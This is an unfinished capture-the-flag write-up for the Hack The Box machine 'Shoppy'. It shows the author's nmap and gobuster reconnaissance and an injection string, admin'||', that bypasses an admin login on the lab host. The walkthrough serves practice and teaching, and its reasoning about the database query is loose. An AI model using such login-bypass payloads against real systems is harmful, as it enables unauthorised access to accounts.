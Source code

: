 # Shoppy WIP
## Start: 27/10/2022

### IP: 10.10.11.180

So first, nmap, scan is below
```
$nmap -sV -sC 10.10.11.180 -Pn 
Nmap scan report for 10.10.11.180
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
pop shoppy.htb into host file and away we go using burp to the website, where we're met by a waiting page followed by a redirect to the main page:
![Picture of wait page](https://github.com/e-war/Writeups/blob/master/HackTheBox/Shoppy/Screenshots/1Shoppy_Wait.png)
![Picture of main page](https://github.com/e-war/Writeups/blob/master/HackTheBox/Shoppy/Screenshots/2Shoppy_main.png)
Ok, a boring countdown, are there any interesting scripts? 
```
<script src="js/jquery.js"></script>
<script src="js/plugins.js"></script>
<script src="js/jquery.countdown.min.js"></script>
<script src="js/main.js"></script>

```
Nothing really stands out when viewing these however so next bit of info gathering is testing out if there are some hidden directories we can search for, typically i use gobuster for this

```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/elliot/Programs/Security/SecLists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   404
[+] Exclude Length:          169
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/28 20:10:50 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 28] [--> /login]
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]              
/js                   (Status: 301) [Size: 171] [--> /js/]    
/css                  (Status: 301) [Size: 173] [--> /css/]   
/assets               (Status: 301) [Size: 179] [--> /assets/]
/Admin                (Status: 302) [Size: 28] [--> /login]   
/Login                (Status: 200) [Size: 1074]              
/fonts                (Status: 301) [Size: 177] [--> /fonts/] 
/ADMIN                (Status: 302) [Size: 28] [--> /login]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/LogIn                (Status: 200) [Size: 1074]               
/LOGIN                (Status: 200) [Size: 1074]               
                                                               
===============================================================
2022/10/28 20:14:13 Finished
===============================================================
```
Well would you look at that, an /admin which redirects to the /login page and an /exports page too, although this only redirects to a path which cant be fetched..
Lets take a look at that admin page anyway
![Picture of admin login page](https://github.com/e-war/Writeups/blob/master/HackTheBox/Shoppy/Screenshots/3Shoppy_admin.png)
admin:admin is probably too good to hope for, but looks like if we put a quote mark in the page it times out! This is a decent chance of being the result of breaking some database query which looks up the account and password, this could mean that with correct symbol placement we could modify the query and allow any password to be accepted for any user account.

So the steps being:
    -   Determine database using specific inputs
    -   Determine database query
    -   Craft breakout string


i can't be sure as we can't really get a response from the server aside from the timeout error we recieve when the sql query breaks.

![SQL 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/Shoppy/Screenshots/4Shoppy_SQL1.png)

![SQL 2](https://github.com/e-war/Writeups/blob/master/HackTheBox/Shoppy/Screenshots/5Shoppy_SQL2.png)


`admin'&&'` includes quote marks returns the normal "wrong credentials" error which means that the system is reading this as valid sql.

A database query for sql might look like
`'WHERE user.username == "" && user.password == ""'`

So by entering a command such as the one below:
`admin'||'`

Would result in `'WHERE user.username == admin'||' && user.password == ""'`
Which means where username == admin OR (&& password == password), which removes the password from being a neccessary element as we only need the username or the password.

So lets give that a try...
![Crafted String](https://github.com/e-war/Writeups/blob/master/HackTheBox/Shoppy/Screenshots/6Shoppy_Crafted.png)

![Login Bypassed](https://github.com/e-war/Writeups/blob/master/HackTheBox/Shoppy/Screenshots/7Shoppy_admin_bypass.png)
